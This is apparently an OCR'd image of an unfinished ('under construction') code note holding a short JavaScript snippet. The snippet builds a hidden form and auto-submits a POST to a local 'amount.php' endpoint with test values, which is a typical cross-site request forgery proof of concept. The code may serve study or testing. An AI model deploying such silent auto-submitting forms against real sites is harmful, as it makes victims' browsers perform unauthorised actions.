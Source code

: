 - # 施工中
- ```js
  <script>
  function httpPost(URL, PARAMS) {
    var temp = document.createElement("form");
    temp.action = URL;
    temp.method = "post";
    temp.style.display = "none";
  
    for (var x in PARAMS) {
      var opt = document.createElement("textarea");
      opt.name = x;
      opt.value = PARAMS[x];
      temp.appendChild(opt);
    }
    document.body.appendChild(temp);
    temp.submit();
  
    return temp;
  }
  httpPost("http://127.0.0.1/api/amount.php", {
    "u": "test",
    "a": "9999"
  });
  </script>
  ```